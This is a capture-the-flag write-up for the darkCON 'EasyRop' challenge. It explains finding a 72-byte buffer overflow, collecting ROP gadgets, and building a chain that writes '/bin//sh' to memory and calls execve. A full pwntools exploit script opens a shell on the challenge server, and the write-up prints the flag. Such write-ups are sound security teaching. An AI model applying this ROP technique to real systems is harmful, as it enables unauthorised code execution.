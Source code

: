 # EasyRop - Writeup

![challenge description](./chall_description.png)<br>

## Recon
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

## Preparation
Now I thought about my objective: Getting a shell<br>
What we have to do:<br>
1.Write "/bin/sh" somewhere in memory<br>
2.make a syscall or call system with the first parameter being the location of the string, and the two next parameters being just anything <br>
<br>
The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:
<br>
\[+] Gadget found: 0x4012d3 syscall 				; making the syscall<br>
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory <br>
\[+] Gadget found: 0x40f4be pop rsi ; ret 			; controlling the rsi register<br>
\[+] Gadget found: 0x4175eb pop rax ; ret 			; controlling rax<br>
\[+] Gadget found: 0x40191a pop rdi ; ret 			; ...<br>
\[+] Gadget found: 0x40f4be pop rsi ; ret <br>
\[+] Gadget found: 0x40181f pop rdx ; ret<br>
<br>

## The Plan

pop writable location into rsi >> <br>
pop "/bin/sh" into rax >> <br>
call write gadget >> <br>
pop writable +8 into rsi >> <br>
pop (anything) into rax >> <br>
call writegadget >> <br>
pop /bin/sh location into rdi (the first syscall parameter) >> <br>
pop the junk data location into rsi and rdx (2. and 3. argument) >><br>
pop 0x3b into rax (=(dec)59; syscall number for execve) >> <br>
make syscall >> <br>
Enjoy our flag!<br>

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:
![terminal output](./terminal_exploit_execution.png)<br>

Well done! <br>
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
